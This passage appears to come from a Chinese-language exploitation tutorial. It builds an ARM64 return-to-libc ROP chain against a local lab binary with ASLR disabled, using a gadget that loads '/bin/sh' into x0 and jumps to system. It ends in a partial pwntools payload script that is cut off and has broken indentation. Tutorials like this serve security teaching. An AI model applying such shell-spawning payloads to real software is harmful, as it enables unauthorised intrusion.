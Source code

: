 查看反汇编的主函数，我们可以看到我们希望**跳转**到直接跳转到 **`printf`** 的指令，其偏移量从二进制文件加载的位置为 **`0x860`**：

<figure><img src="../../../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

### 寻找 system 和 `/bin/sh` 字符串

由于 ASLR 已禁用，地址将始终相同：

<figure><img src="../../../.gitbook/assets/image (1219).png" alt=""><figcaption></figcaption></figure>

### 寻找 Gadgets

我们需要在 **`x0`** 中有指向字符串 **`/bin/sh`** 的地址并调用 **`system`**。

使用 rooper 找到了一个有趣的 gadget：
```
0x000000000006bdf0: ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```
### 攻击

这个工具将从**`$sp + 0x18`**加载`x0`，然后从sp加载地址x29和x30，最后跳转到x30。因此，利用这个工具，我们可以**控制第一个参数，然后跳转到system**。
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000
binsh = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
system = libc.sym["system"]

def expl_bof(payload):
p.recv()
p.sendline(payload)

# Ret2main
stack_offset = 108
ldr_x0_ret = p64(libc.address + 0x6bdf0) # ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x18 - 0x10)
x0 = p64(binsh)
```
